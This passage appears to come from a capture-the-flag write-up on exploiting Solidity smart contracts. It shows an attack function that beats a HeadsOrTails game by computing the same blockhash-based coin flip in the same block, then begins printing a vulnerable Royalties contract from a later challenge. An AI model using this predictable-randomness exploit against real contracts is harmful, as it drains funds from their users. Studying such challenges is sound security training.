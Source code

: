 This happens since both calls will be done in the same block. We can write our attack function as follows:

~~~solidity
    function guess() payable external{
        require(msg.value == 0.10 ether, "Incorrect Transaction Value");
        HeadsOrTails headsOrTails = HeadsOrTails(headsOrTailsAddr);
        bytes32 entropy = blockhash(block.number-1);
        bytes1 coinFlip = entropy[0] & 1;
        if (coinFlip == 1) {
            headsOrTails.play.value(msg.value)(true);
        }
        else {
            headsOrTails.play.value(msg.value)(false);
        }
    }
~~~

Don't forget fallback function so our contract can receive eth as well as withdraw function.

## Lvl 9 Record Label

~~~solidity
pragma solidity 0.4.24;

import "../CtfFramework.sol";
import "../../node_modules/openzeppelin-solidity/contracts/math/SafeMath.sol";

contract Royalties{
    using SafeMath for uint256;
    address private collectionsContract;
    address private artist;
    address[] private receiver;
    mapping(address => uint256) private receiverToPercentOfProfit;
    uint256 private percentRemaining;
    uint256 public amountPaid;

    constructor(address _manager, address _artist) public
    {
        collectionsContract = msg.sender;
        artist=_artist;

        receiver.push(_manager);
        receiverToPercentOfProfit[_manager] = 80;
        percentRemaining = 100 - receiverToPercentOfProfit[_manager];
    }

    modifier isCollectionsContract() { 
        require(msg.sender == collectionsContract, "Unauthorized: Not Collections Contract");
        _;
    }

    modifier isArtist(){
        require(msg.sender == artist, "Unauthorized: Not Artist");
        _;
    }

    function addRoyaltyReceiver(address _receiver, uint256 _percent) external isArtist{
        require(_percent<percentRemaining, "Precent Requested Must Be Less Than Percent Remaining");
        receiver.push(_receiver);
        receiverToPercentOfProfit[_receiver] = _percent;
        percentRemaining = percentRemaining.sub(_percent);
    }

~~~